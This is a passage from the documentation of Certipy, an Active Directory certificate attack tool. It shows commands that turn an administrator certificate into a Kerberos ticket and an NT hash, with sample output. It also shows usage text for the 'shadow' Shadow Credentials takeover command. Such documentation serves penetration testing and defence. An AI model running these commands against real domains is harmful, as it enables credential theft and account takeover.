 ```
```

By default, Certipy will try to extract the username and domain from the certificate (`-pfx`) for authentication via Kerberos.

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

The NT hash and the credential cache (TGT) can be used for further authentication with other tools. If you're in a domain context on a Windows machine, you can use `-ptt` to inject the TGT into your current session.

If the example above doesn't work in your case, you can specify the required parameters manually, such as the KDC IP, username, and domain. This can sometimes happen if the certificate doesn't contain information about the user (such as Shadow Credentials) or if the domain name cannot be resolved via DNS.

```bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

### Shadow Credentials

The `shadow` command is useful for taking over an account when you can write to the `msDS-KeyCredentialLink` attribute of the account. Read more about Shadow Credentials [here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

```
Certipy v4.0.0 - by Oliver Lyak (ly4k)

usage: certipy shadow [-h] [-account target account] [-device-id DEVICE_ID] [-debug] [-out output file name] [-scheme ldap scheme] [-dc-ip ip address] [-target-ip ip address] [-target dns/ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-u username@domain]
                      [-p password] [-hashes [LMHASH:]NTHASH] [-k] [-sspi] [-aes hex key] [-no-pass]
                      {list,add,remove,clear,info,auto}

positional arguments:
  {list,add,remove,clear,info,auto}
                        Key Credentials action

optional arguments:
  -h, --help            show this help message and exit
  -account target account
                        Account to target. If omitted, the user specified in the target will be used
  -device-id DEVICE_ID  Device ID of the Key Credential Link
  -debug                Turn debug output on

```